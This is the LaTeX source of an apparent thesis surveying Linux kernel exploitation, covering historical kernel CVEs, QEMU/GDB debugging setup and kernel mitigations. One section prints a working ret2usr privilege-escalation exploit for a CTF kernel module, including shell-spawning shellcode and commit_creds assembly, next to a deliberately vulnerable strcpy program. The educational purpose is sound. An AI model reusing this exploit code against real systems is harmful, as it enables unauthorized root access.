\documentclass{masterthesis}

\usepackage{graphicx}
\usepackage{flexisym}
\usepackage{xspace}
\usepackage{todonotes}
\usepackage{enumitem}
\usepackage{tabto}
\usepackage{amsfonts}
\usepackage{pgfplots}
\usepackage[bookmarks=true,colorlinks=true,linkcolor=blue,citecolor=blue,filecolor=blue,urlcolor=blue]{hyperref}

%listing
\usepackage{listings}
\usepackage{color}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\setlength {\marginparwidth }{2cm} 
\lstset{frame=tb,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  language=C
}

\newcommand{\vtnote}[1]{\todo[color=green!20]{#1}}
\newcommand{\glnote}[1]{\todo[color=blue!20]{#1}}

% macros
\newcommand{\checkthis}[1]{{\color{red}{#1}}}
\newcommand{\refToChapter}[1]{Chapter~\ref{ch:#1}\xspace}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}

\begin{document}

\title{A survey of kernel-exploitation techniques}

\author{Vincenzo Terracciano}

\advisor{Giovanni Lagorio}

\examiner{Alessandro Armando}

\maketitle

\begin{abstract}
The kernel is the computer’s brain or the software capable of providing secure and controlled access to the hardware to the processes running on the computer.

Very often during development, developers can make mistakes by forgetting controls or inserting inappropriate code. This allows a hacker to exploit these vulnerabilities in order to have full control of the computer.

From this we can deduce how important it is to be able to analyze the kernel in order to find any bugs and avoid possible attacks. The number of people who have approached this fascinating and complex area to deal with has grown over time. We can find several kernel exploits on the internet. However, those who approach this study do not use a standard and easy-to-use debugging environment.
In fact, the aim of this thesis is to identify a debugging environment that is simple to use, intuitive for those who approach this area and that is suitable for any type of kernel (Linux).



\end{abstract}




\tableofcontents
\chapter{Introduction}
\label{ch:intro}
The number of electronic devices on the market is constantly growing.
To this growth must be added the continuous updating and development of the kernels due to new features and new hardware specifications. 
Regardless of the type of operating system, the number of vulnerabilities present in kernels has grown exponentially.
Let us consider the number of vulnerabilities in figure \ref{figure:kernel_vulnerabilities} of the major operating systems of tablets, PCs, smartphones in the five years from 2016 to 2021~\cite{cvedatail}.
\begin{figure}[h!]
   \caption{Kernel vulnerabilities from 2016 to 2021.}
   \makebox[\textwidth][c]{
\includegraphics[height=0.4
   \textwidth]{images/KernelVulnerabilities.png}}
   \label{figure:kernel_vulnerabilities}
\end{figure}
\\
We have : 
\begin{itemize}
\item 1135 vulnerabilities in the Linux kernel;
\item 319 vulnerabilities in the Windows kernel;
\item 337 vulnerabilities in the Mac Os kernel.
\end{itemize}
Many discovered and undiscovered vulnerabilities result from too much trust in user input, from unpatched firmware/software or poorly written code, or from complex software that executes millions of lines of code, and more.
By analyzing these numbers we understand that it is increasingly necessary to analyze the kernel for vulnerabilities to be discovered before an attacker can penetrate systems and access sensitive data or to gain control of the system itself.
We are now going to show some of the bugs that have paralyzed the IT world.

\section{Motivation}
\label{sect:motiv}
We now show a series of bugs discovered over time and in different operating systems that have created many problems for users.

The \emph{Badlock} security bug, disclosed April 12, 2016, with \textit{CVE-2016-2118}, is a crucial security bug in MS Windows and Samba (a free software reimplementation of the SMB network protocol for Unix and Linux), which caused/medit possible two dangerous attack types: Man-in-the-middle (MITM)~\cite{conti2016survey} and Denial-of-Service (DoS)~\cite{lau2000distributed}.
The problem is in the component called Distributed Computing Environment/Remote Procedure Call(DCE/RPC), used in SMB/CIFS servers.
The common user is not directly interested but probably the servers of their bank, or those of the e-mail system they uses, or in general, those of many services which they accesses, are likely to be.

\emph{BlueBorne} is a type of security vulnerability with Bluetooth implementations in Android, iOS, Linux, and Windows. It affects many electronic devices such as laptops, smart cars, smartphones and wearable gadgets.
BlueBorne~\cite{bour2018bluetooth} is a vulnerability that allows us to attack any device with Bluetooth enabled. This bug does not affect Bluetooth itself, but its implementation on different types of software such as Windows, Android, Linux, and iOS have been vulnerable to BlueBorn in the past, and many others may still be at risk.
It is enough to sit down with our computer equipped with a Bluetooth enabled radio, scan the devices and obtain information such as those relating to the operating system and the Bluetooth version. This is the first step towards total access to the device under attack.
When Bluetooth is active on a device, it is constantly open and looking for potential connections. Thus, a BlueBorne attack begins by going through a scan in search of devices that have Bluetooth enabled: at the starting point, we have to look for information such as the type of device and the target operating system, to understand the existence of one or more vulnerabilities. Once an attacker has identified the vulnerable targets, the attack is fast (can happen in about 10 seconds) and dynamic. The affected devices do not need to connect and the attack can work even when the victim device's Bluetooth is already connected to another device via Bluetooth.
BlueBorne can allow an attacker to take control of victims' devices and access - and potentially steal - their data. The attack can also spread from device to device if other targets are nearby with Bluetooth enabled. As with almost all Bluetooth devices, attackers would have to be within range of the device to launch an attack. However, even with the widespread diffusion of patches dedicated to BlueBorne, there are still many vulnerable devices in every building and in each densely populated area.

The \emph{Dirty COW}~\cite{alam2017study} is a security vulnerability of the Linux kernel. It is a privilege escalation exploit which means that it can be used to gain root access.
The name ``Dirty COW'' comes from the copy-on-write(COW) mechanism in the kernel's memory-management subsystem. 
In practice, a malicious program can potentially set a race condition to turn a read-only mapping of a file into a writable one. In this way, unprivileged users could use this bug to gain root access on the system. This kind of technique is called privilege escalation.
So, let us see in detail how it works.
\emph{Copy On Write} is a technique that makes a copy of a section of memory only when we have to make a change to that memory. The main advantage is that we do not have to do the work of making the copy unless and until they actually change it. The vulnerability is in the code that does that copying. We can create a race condition in that copy: this means that two different processes are accessing the same resource and step on each other. 
First of all, we have to create a private copy(mapping) of a read-only file. Then, we can write on the private copy. Due to the fact that this is the first time we have to write to the private copy, the COW mechanism is activated because the writing process consists of two non-atomic subprocess:
\begin{itemize}
\item locate the physical address;
\item write to the physical address.
\end{itemize}
This means that via another thread we can tell the kernel to throw away our private copy (using \texttt{madvise}~\cite{madvise}). So, the kernel have to delete the private copy writing to the original read-only file.
Although this is a local privilege escalation, a remote attacker can use it with other exploits that allow remote execution of unprivileged code to gain a remote root access on a computer. The attack itself leaves no traces in the system registry.
By obtaining root permissions, malicious programs get unlimited access to the system.
So, at that point, a program can modify system files, deploy keyloggers, access personal data stored on the device and so on.
The Dirty COW vulnerability affects all versions of the Linux kernel since version 2.6.22, released in 2007. According to Wikipedia, the vulnerability has been fixed in kernel versions 4.8.3, 4.7.9, 4.4.26 and later. 
A patch was initially released in 2016, but it did not completely fix the problem, so a later patch was released in November 2017. In fact, the exploit has no preventive solution, the only cure is a patch or running a newer version that is no longer vulnerable.

\emph{Linux.Encoder}(also known as ELF/Filecoder.A and Trojan.Linux.Ransom.A) is the first ransomware Trojan targeting computers, cloud servers, and devices running Linux, discovered in November 2015. There are additional variants of this ``attack'' targeting other Unix or Unix-like systems.
The first version of Linux.Encoder uses RSA asymmetric encryption and 128-bit AES encryption; the ``.encrypte'' extension is added to the encrypted files.
The malware uses the \texttt{rand()} functionality of the  libc library which uses the timestamp as a seed to generate cryptographic keys.
This detail was soon discovered and made the key used for encryption ``predictable'', allowing the tools to decrypt the contents of the files without having to ``pay'' to redeem the files.

\emph{Rootpipe} security vulnerability in OS X allows privilege escalation.
The security flaw allows software to run under an account without administrator privileges to gain root access via the sudo command without authenticating. Normally, an administrator user is locked out and does not obtain root privileges unless the user enters the administrator password.
This mechanism could be used by malware to install itself without requiring an administrator password, just like it does on Windows. The vulnerability affects OS X versions 10.10, 10.9, and 10.8.
Combined with other bugs on the Mac, such as an unpatched Apache web browser, an attacker can also use the root pipe to gain complete control of the operating system and Apple Mac computer or server.

The bugs are not always due to errors of the kernel developers, but to development errors of the hardware part of the microprocessors.

\emph{Meltdown}~\cite{lipp2018meltdown} is a hardware vulnerability that primarily affects Intel microprocessors and some ARMs, which allows potential attackers to access protected areas of a computer's memory.
it was discovered by Google researchers in 2018. According to the discoverers, all processors that implement out-of-order execution, ie almost all processors produced since 1995 to date, are affected.
The bug mainly affects cloud computing vendors as they run several virtual machines on the same physical server, and rely on the protections that Meltdown bypasses to prevent running programs from accessing memory in use by other running programs.
Meltdown exploits a CPU race condition between the execution of instructions that access memory and the verification of memory access privileges.

A good number of Linux and FreeBSD machines are vulnerable to a denial of service called \emph{SACK Panic}~\cite{shitwo}(which stands for Selective ACK - selective confirmation). The criticalities are known with the identifiers \textit{CVE-2019-11477}, \textit{CVE-2019-11478}, \textit{CVE-2019-5599} and \textit{CVE-2019-11479}.
This series of vulnerabilities have been unveiled by the Netflix security team.
The flaw concerns the transfer via TCP. Due to memory management gaps in the system's TCP-stack Selective Acknowledgment (SACK) capabilities, a cybercriminal can cause severe slowdowns, disruptions, and system crashes by sending a particular sequence of packets to the target.
These flaws can impact any organization running large fleets of production Linux computers and, if left unpatched, allow remote attackers to take control and crash machines.
Sometimes it is possible to compromise information by causing a kernel panic, completely blocking the system. This issue concerns a feature introduced starting with kernel 2.6.29: all subsequent versions are affected by the problem.

\section{Thesis goal}
These are some of the many bugs discovered over the past five years. Consider the numbers seen above. What is scary is the constant discovery of bugs that make millions of users vulnerable, unaware of what they are using.
Therefore it is very important to have an environment that allows for the analysis of the kernel before it is placed on the market because in this way we can prevent any vulnerabilities that can be exploited for possible attacks.
The debugging environment that we will propose takes into account the features present in Linux kernels, exploiting them to its advantage for a precise and accurate analysis. 
We will introduce a tool that allows the simulation of the operating system inside another computer (the one used for the analysis), avoiding the use of a serial or remote connection with a real computer. This allows us to reduce the resources used and speed up the preparation of the environment.
To debug the real kernel we are going to use a software also used in the user-land environment which, combined with the above, can also be used for kernel analysis.

\section{Thesis overview}
To understand the context we will talk about, in \refToChapter{kernel} we explain what a kernel is and how to get root privileges, in particular in \refToSection{exploitation}. Then, in order to better understand the difference between a user-land and kernel-land exploit we show an example in \refToSection{land}.

In \refToChapter{analyze}, we describe how to ``set up" an environment that allows kernel analysis.
We introduce two important components that we use to carry out our task: \emph{QEMU}, in \refToSubSection{QEMU}; and \emph{GDB}, in \refToSubSection{gdb}.
In addition, we introduce the settings which we have to use in the kernel so that debugging it is as user-friendly as possible.

In \refToChapter{mitigation}, we describe the kernel’s mitigations, making a distinction between those similar to user-land (see \refToSection{like user-land}) and the one create specifically for the kernel (see \refToSection{powerful mitigation}).

In order to test the effectiveness of the proposed debugging environment and to better understand how mitigations work within the kernel we proposed two use cases.

The first, in \refToChapter{adding mitigation}, discusses a use case taken from a CTF challenge in which one will start from a kernel without protection/mitigation to a kernel with all protection/mitigation active. For this it will be very important to have a debugging environment that adapts to the different characteristics of the kernel that we will analyze step by step.

Subsequently, to test the proposed environment we will analyze a real use case of a vulnerability in \refToChapter{cve-2017} related to a real bug and a possible exploit for that version of the kernel.


\chapter{The Kernel and its exploitation}
\label{ch:kernel}

We start our research about \emph{kernel exploitation} with this goal: explaining what the kernel is and what exploitation signifies.
When we have to talk about a computer, generally we have to think of a set of physical devices (processor, motherboard, memory, hard drive, keyboard, etc.) that let us perform simple tasks such as writing, sending an email, watching a movie, surfing the Web and so on.
The kernel has complete control over the whole system. It is the \emph{portion of the operating system code} that is always resident in memory, and facilitates interactions between hardware and software components.
Typically the kernel is responsible for memory management, process and task management and disk management.
Between these bits of hardware and applications we have to work on every day there is a layer of software that makes it possible all the hardware work efficiently and create an infrastructure which the applications can work.
This layer of software is the operating system, and its core is the kernel.

In modern operating systems, the kernel acts for the things we normally take has grant: virtual memory, hard-drive access, input/output handling, and so forth. Generally it is larger than most user applications. The kernel is a complex and charming piece of code usually written in a collection of assembly, the low level machine language, and C.
Moreover, the kernel employs some underlying architecture properties to separate itself from the rest of the running programs.
In fact, most \emph{Instruction Set Architectures}~\cite{silberman1993architectural} supply at least two modes of execution: a \emph{privileged mode}, where the machine-level instructions are completely accessible, and an \emph{unprivileged/user mode}, in which only a subset of instructions are accessible.
Furthermore, the kernel protects itself from user applications by realizing separation at the software level.
When we have to set up the virtual memory subsystem, the kernel makes it possible to access the address space (i.e., the range of virtual memory addresses) of any process, and no process can directly refer to the kernel memory.
 
We will call the memory visible only to the kernel as \emph{kernel-land} memory and the memory a user process sees as \emph{user-land} memory. The term ``user-land'' refers to all code that runs outside the operating system's kernel. User-land usually refers to the various programs and libraries that the operating system uses to interact with the kernel.
Code executing in kernel-land runs with full privileges and can access any valid memory address on the system, while code executing in user-land is subject to all limits as describe above.


\section{Art of Exploitation}
\label{sect:exploitation}

There are various ways an attacker can gain root privileges, the most excitement/exciting is generally performed with the development of an \emph{``exploit''}.
The meaning behind \emph{exploitation} is really simple: software has bugs, and these make the software work not correctly, or otherwise perform incorrectly a task that had to perform in an appropriate way.
And all this means an advantage for the \emph{attacker}. Not every bug is exploitable.
Analyzing an application to establish its vulnerability is called \emph{auditing}. It entails:
\begin{itemize}
\item \emph{analysing} the source code of the application, if available;
\item \emph{reversing} the application binary; that is, reading the disassembly of the compiled code;
\item \emph{fuzzing} the application interface; that is feeding the application random or pattern-based, automatically generated input.
\end{itemize}

\section{Difference between Kernel-land and User-land}
\label{sect:land}
With the large diffusion of security patches and the contemporary reduction of user-land vulnerabilities, the attention of exploits writers has gone toward the core of the operating system.
However, writing a \emph{kernel-land exploit} presents various extra challenges if compared to a user-land exploit.
\begin{itemize}
\item The kernel is the only software strictly necessary for the system. The kernel is the only software strictly necessary for the system. If theoretically it is well structured and works correctly, it can manage any critical situations.One of the differences with the user-land is the impossibility of carrying out the brute force technique. In fact, the brute force technique can be used in user-land because the only problem is the noise that we could create in the logs.
When it comes to the kernel, this hypothesis is not true anymore: an error at the kernel level leaves the system in an \emph{inconsistent state}, and it is usually required to take back the machine to its appropriate functioning.
If the error happens inside one of the critical areas of the kernel, the operating system will just shut down, a condition known as panic~\cite{cheng2021kernel}.
\item The kernel is protected from user-land via both software and hardware. Finding information about the kernel is a much more difficult job. At the same time, the number of variables that are no longer under the attacker’s control intensifies in an exponentially way. 
\item The kernel is a large and complex system. In the figure \ref{figure:line_code_graphview} we see how the size of Linux kernels has grown over the years~\cite{codeLinux}, consisting of millions of lines of source code
\begin{figure}[h!]
  \caption{Number of lines of Linux kernel code from 2004 to 2020. While the number of developers has decreased, the growth of the kernel code is constant.}\label{figure:line_code_graphview}
  \makebox[\textwidth][c]{\includegraphics[height=0.38
  \textwidth]{images/Linux-lines-code.png}}
\end{figure} 
\end{itemize}
The kernel has to control all the hardware on the computer and most of the lower-level software abstractions (virtual memory, file systems, IPC facilities, etc.). This implies many hierarchical, interconnected subsystems that the attacker may have to deeply understand to successfully trigger and exploit a specific vulnerability. This characteristic can also become an advantage for the exploit developer, as a complex system is also less likely to be bug-free.

\subsection{Example of User-land and Kernel-land exploit}
\label{subsect:example_of_kernel_user_land}

To understand differences and similarities with user-land, we will show two examples in both environments and we will see similarities and differences. In this case, we will merely consider the file that allows the exploit and what we will be able to obtain by exploiting the vulnerabilities present in the kernel/program.

The CTF challenge~\cite{m0leconTeaser2020_babyk} uses an unprotected kernel where they provide the source code and the exploited vulnerability is a buffer overflow.

The goal is to read the flag in the directory \texttt{/home/user/exp} to overcome the challenge.

\begin{lstlisting}
#define MAP_PRIVATE     0x02    /* Changes are private.  */
#define MAP_FIXED       0x10    /* Interpret addr exactly.  */
#define MAP_ANONYMOUS   0x20    /* Do not use a file.  */
#define O_RDWR        0x0002  /* open for reading and writing */

typedef unsigned long long qword;

extern void kernel_shellcode();
char user_shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7
\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

qword mcpy(char * dst, char * src, qword n)
{
    for (qword i = 0; i < n; ++i)
        dst[i] = src[i];
  return n;
}

void * mmap(void * addr, qword size, qword prot, qword flags)
{
    return syscall64(9, addr, size, prot, flags, -1, 0);
}
int _start (int argc, char **argv) 
{
  char buf[0x1000];
  char * payload = buf;
    // Prepare memory for ret2usr
  void *user-land_stack = mmap((void *)0xcafe000, 0x1000, 7, MAP_ANONYMOUS|MAP_PRIVATE|0x0100);
  void *user-land_code = mmap((void *)0x1234000, 0x1000, 7, MAP_ANONYMOUS|MAP_FIXED|MAP_PRIVATE);
  mcpy(user-land_code, &user_shellcode,sizeof(user_shellcode));

    // Fill up stack until saved_rip
  for (int i = 0;  i < 124; i++)
    *(payload++) = 'A';
  *(qword *)payload = (qword) kernel_shellcode; payload += 8;
  // Profit
  int vuln_fd = syscall64(2, "/proc/babydev", O_RDWR,100,0, 0,0);
  syscall64(1, vuln_fd, buf, payload - buf, -1,-1,-1);
  syscall64(0x60, 0, -1,-1,-1,-1,-1);
  return 0;
}
\end{lstlisting}
\begin{lstlisting}
.text
.intel_syntax noprefix

.global syscall64
.global kernel_shellcode

kernel_shellcode:
    # commit_cred(prepare_kernel_creds(0))
    xor RDI, RDI
    mov rcx, 0xffffffff81052a60     # cat kallsyms | grep prepare_kernel_creds
    call rcx
    mov RDI, RAX
    mov rcx, 0xffffffff81052830     # cat kallsyms | grep commit_creds
    call rcx
context_switch:
    swapgs
    # ss
    mov r15, 0x2b
    push 0x2b 
    # rsp - mmapped value
    mov r15, 0xcafe000
    push r15
    # rflags - dummy value
    mov r15, 0x246
    push r15
    # cs
    mov r15, 0x33
    push r15
    # rip - mmapped value
    mov r15, 0x1234000
    push r15
    iretq
end_kernel_shellcode:
    nop

syscall64:
    pop r14
    pop r15
    push r15
    push r14
    sub rsp, 0x100

    mov RAX, RDI
    mov RDI, rsi
    mov rsi, rdx
    mov rdx, rcx
    mov r10, r8
    mov r8,r9 
    mov r9, r15
    syscall

    add rsp, 0x100
    ret
\end{lstlisting}

The codes above allow us to gain root privileges by taking control of the saved \texttt{rip} by returning the kernel to the user mapped code \texttt{user_shellcode} and executing \texttt{commit_creds (prepare_kernel_creds(0))} without crashing the kernel by generating a shell and reading the flag.

Instead, consider this user program:
\begin{lstlisting}
#include <string.h>

void foo(char *bar)
{
   char c[12];

   strcpy(c, bar);  // no bounds checking
}

int main(int argc, char **argv)
{
   foo(argv[1]);
   return 0;
}
\end{lstlisting}
This code takes an input argument and copies it to a local stack variable. Since the \texttt{strcpy} function does not check the size of the input, it works fine when there is no intention of harming, so for arguments of the command line less than 12 characters (as we can see in figure \ref{figure:stackoverflow}: ``B'' box below). Any arguments longer than 11 characters will cause stack corruption. The maximum safe number of characters is one less than the buffer size here because, in the C programming language, strings are terminated by a null byte character. 

\begin{figure}[h!]
  \caption{Program stack in foo() with different input}
  \label{figure:stackoverflow}
  \makebox[\textwidth][c]{
\includegraphics[height=0.4
  \textwidth]{images/stackoverflow.png}}
   
\end{figure} 

Notice in figure \ref{figure:stackoverflow}: ``C'' box above, when an argument larger than 11 bytes is given on the command line \texttt{foo()} overwrites the local stack data, the saved frame pointer, and most importantly, the return address. When \texttt{foo()} returns, it pulls the return address from the stack and jumps to that address (i.e. starts executing instructions from that address). Therefore, the attacker overwrote the return address with a pointer to the stack buffer char \texttt{c[12]}, which now contains the data provided by the attacker. In a real stack buffer overflow exploit, the string of ``A'' would be shellcode suitable for the platform and the desired function.

In both cases, we have to overflow the buffer, but let us take a closer look at what we have to do.

In the first case, we have total access to the system, allowing us to move around it at will.
With this level of permissions, it is possible to take control of the security system and render it useless by applying patches to all integrity checks that are done by the system.
We can read the flag because we have root privileges.

In the second case instead, it allows us to explore the system with limited permissions, we can execute unauthorized code where it was not possible before. Which translates into the ability to use emulators or write our programs.

These two examples allow us to understand how a kernel-land exploit is much more powerful and invasive than a user-land exploit.


\chapter{Analysis Environment}
\label{ch:analyze}
In this chapter we will create a valid debug environment for each kernel of the Linux family.
We will shape the environment we want to pose by explaining step by step what is needed to create it.
\section{Debugging}
\label{sect:debugging}
We talk about everything that is needed to create a debug environment for the kernel by analyzing each tool that we use.
This approach allows for an environment that is simple to reproduce, intuitive and not very complex compared to what we see on the web.

\subsection{GDB}
\label{subsect:gdb}
In user space we have the support of the kernel so we could easily stop processes and use \emph{GDB}~\cite{stallman1988debugging} to inspect their behavior.
GDB allows us to see what is going on \emph{inside} another program while it executes or what another program was doing at the moment it crashed.
GDB can do four main things to help us catch ongoing bugs:
\begin{itemize}
\item start our program, specifying anything that might affect its behaviour;
\item stop our program under the specified conditions;
\item examine what happened when our program stopped;
\item change things up in our program so we can experiment with correcting the effects of one bug and keep learning about another.
\end{itemize}
This allows any user program to be debugged.
To exploit the operations listed above for debugging the kernel of an Operating System we have two possibilities:
\begin{itemize}
\item a serial connection and another pc;
\item use a hypervisor.
\end{itemize}
Given the lack of convenience of the first option, a hypervisor is preferred.
Among them we have \emph{QEMU}~\cite{bellard2005QEMU}, a hosted hypervisor, that is, running within a traditional operating system, just like any other program.

The Linux kernel provides a set of tools and debug options useful for investigating abnormal behavior, as we will see in \refToSection{configuration}.
To install GDB we can follow this guide~\cite{gdbinstall}. 
\subsection{Running QEMU}
\label{subsect:QEMU}
As said previously, to debug the kernel we have to use the QEMU hypervisor. Specifically, there are some options needed in kernel analysis:
\begin{itemize}
\item \texttt{-kernel  ``path''}, the path to kernel image to run;
\item \texttt{-initrd ``path''}, path to the initial \emph{ram disk}. In short, a RAM disk is a filesystem dynamically placed in memory at boot time, containing drivers and kernel modules needed to get our real filesystem mounted and to start the first processes to get our whole system running as expected;
\item \texttt{-gdb }\textit{dev}, wait for gdb connection on device \textit{dev}. Typical connections will likely be TCP-based, but also UDP, pseudo TTY, or even stdio are reasonable use cases;
\item \texttt{-s}, shorthand for \texttt{-gdb tcp::1234}, i.e. open a gdbserver on TCP port 1234;
\item \texttt{-S}, freeze the CPU on startup;
\item \texttt{-cpu model}, select CPU model. Here we can add \texttt{+smep} and \texttt{+smap} for \emph{SMEP}, see \refToSubSection{SMEP}, and \emph{SMAP}, see \refToSubSection{SMAP}, mitigation features;
\item \texttt{-m [size=]}\textit{megs}, set virtual RAM size to \textit{megs} megabytes;
\item \texttt{-append}, specifies additional boot options. This is also where we can enable/disable mitigation features.
\end{itemize}
These options are essential for analyzing the kernel. But QEMU supports other options~\cite{qemuoption} which may be useful for running the system and to help the user in the analysis.
To install QEMU we can follow this guide~\cite{qemuinstall}. 
\section{Kernel configuration}
\label{sect:configuration}
When we want to analyze the kernel it is not recommended to just run it. Kernel developers have integrated several debugging features that can be enabled into the kernel itself to analyze it that can be enabled.
So, to enable these features we need to (re)-compile the kernel and install it.

When building a kernel for debugging with gdb, we would advise using the following configuration options to make debugging a bit more pleasant. 

Except where specified otherwise, queste sono quelle consigliate all of these options are found under the \emph{``kernel hacking''} menu.


Note that some of these options are not supported by all architectures and even if they are added, they may be not considered for the building.
\begin{itemize}
\item \texttt{CONFIG\_GDB\_SCRIPTS} adds links to the GDB helper scripts. We find it particularly useful when debugging a kernel module, when we need to inspect the kernel log buffer or VFS mounts.

\item \texttt{CONFIG\_KGDB} enables the built in kernel debugger, which allows for remote debugging. Technically this option is the only one that is strictly required, but attempting to debug without debug symbols will make debugging much harder.

\item \texttt{CONFIG\_FRAME\_POINTER} inserts code to into the compiled executable which saves the frame information in registers or on the stack at different points.

\item \texttt{CONFIG\_DEBUG\_KERNEL} makes other debugging options available.

\item \texttt{CONFIG\_DEBUG\_SLAB} turns on several types of checks in the kernel memory allocation functions; with these checks enabled, it is possible to detect a number of memory overrun and missing initialization errors.

\item \texttt{CONFIG\_DEBUG\_INFO} causes the kernel to be built with full debugging information included. Including debug information in the kernel and kernel modules will make both the image and the modules larger in size.
\end{itemize}
These options are the ones we will use for kernel analysis ~\cite{kernel_analysis}.
If we do not want to use \textit{menuconfig} is possible to set configuration options via command line using the following
\lstinline{$ ./scripts/config -e CONFIG_<our option>} .
Once we have enabled all these options, we need to build the kernel.
This is done from the command line \lstinline{$ make -j$(nproc)}

Before starting the VM and attempting to attach gdb, set up gdb to load the Linux helper scripts by adding \lstinline[language={}]{add-auto-load-safe-path} to our \lstinline{~/.gdbinit}.

All the options discussed above are enabled in the \refToChapter{adding mitigation} kernel to show how debugging the kernel allows us to perform an exploit.

\chapter{Linux kernel mitigation features}
\label{ch:mitigation}
The environment we propose must give the possibility to add or remove techniques that allow the protection of the kernel, as mentioned in \refToChapter{analyze}.

In this chapter, we discuss some techniques the kernel uses to defend itself from possible attacks.
We start from those similar to user-land, detailed in \refToSection{like user-land} to specific ones tailored to the kernel, detailed in \refToSection{powerful mitigation}
\section{Mitigation features equivalence to user-land}
\label{sect:like user-land}
Mitigation features such as \emph{ASLR}, \emph{stack canaries}, \emph{NX}~\cite{salwan2014introduction}, etc. are used by user-land programs. Also the kernel have its own set of mitigation features. Below are presented some of the most popular one.

\subsection{Kernel stack canary}
\label{subsect:canary}
\emph{Stack canaries} are a mitigation targeted at stack-based buffer overflow attacks. They work by exploiting one of the limitations of these kind of attacks, namely, that the attacker must overwrite all the bytes between the overflown buffer and the control data (i.e., saved registers and the return address). The idea is to put a value (the canary) between the local variables and the control data of each function stack frame. So, the attacker has to overwrite the canary before he can overwrite the control data. If the system detects that the canary is manipulated, the attack is blocked.
It is enabled in the kernel at compile time and cannot be disabled.

\subsection{Kernel address space layout randomization}
\label{subsect:KASLR}
Also like \emph{ASLR} on user-land, it is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities. 
In order to prevent an attacker from reliably jumping to, for example, a particular exploited function in memory, \emph{ASLR} randomly arranges the address space positions of key data areas of a process (including the base of the executable and the positions of the stack, heap and libraries).
With kernel address space layout randomization (\emph{KASLR}), the kernel is loaded to a random location in memory.
This technique can protect against attacks that rely on knowledge of the kernel addresses.
The \emph{KASLR} feature is enabled by default.
Although \emph{KASLR} helps to make memory addresses less predictable: once an attacker determines the base address, it is not as effective.
Therefore, more powerful mitigation called \emph{Function-Granular KASLR} has been added to avoid this, as explained in ~\refToSubSection{FG-KASLR}.

\section{Powerful Linux mitigation features}
\label{sect:powerful mitigation}
In \refToSubSection{SMEP} we discuss a mitigation present on the Intel i386 processor~\cite{inteli386}.

The \refToSubSection{SMAP} discusses a mitigation characteristic of some CPU implementations such as the Intel Broadwell~\cite{nalamalpu2015broadwell}microarchitecture.

In \refToSubSection{KPTI} we discuss mitigation to address a vulnerability that primarily affects Intel's x86 CPUs and improves kernel hardening against attempts to bypass the randomization of the kernel address space layout.

The mitigation in \refToSubSection{FG-KASLR} was introduced by the Linux PaX~\cite{marco2016exploiting} project which first coined the term ``\emph{ASLR}'' and published the first project and implementation of \emph{ASLR} in July 2001 as a patch for the Linux kernel. It is seen as a full implementation, also providing a kernel stack randomization patch since October 2002.
